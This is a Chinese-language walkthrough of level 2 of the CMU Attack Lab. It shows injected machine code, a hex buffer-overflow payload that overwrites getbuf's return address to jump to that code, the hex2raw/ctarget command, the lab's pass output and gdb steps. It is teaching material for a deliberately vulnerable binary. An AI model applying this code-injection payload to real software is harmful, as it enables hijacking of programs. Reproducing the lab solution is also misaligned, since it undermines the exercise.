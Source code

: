 ```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

由第一题我们可以得到我们输入的字符串存放到内存地址是：**0x5561dc78**。该字符应该放到40个字节之后用于getbuf的ret的情况，返回我们自己编写的代码。

touch2

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31 31
78 dc 61 55 00 00 00 00
```

```
$ cat touch2 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 78 DC 61 55 00 00 00 00
```

使用gdb进行调试查看代码的过程和我们的思路是否一致

先将输入的数据放到一个文件中便于调试

```
$ ./hex2raw < touch2 > temp1
$ gdb ctarget
(gdb) start -q < temp1
```

我们应该在getbuf处进行打断点

```
(gdb) b getbuf
Breakpoint 3 at 0x4017a8: file buf.c, line 12.
(gdb) c
Continuing.
Cookie: 0x59b997fa

Breakpoint 3, getbuf () at buf.c:12
12      buf.c: No such file or directory.
```

依旧是查看rsp的值和该值指向的内存值，可以发现call getbuf并没有什么意料之外的情况
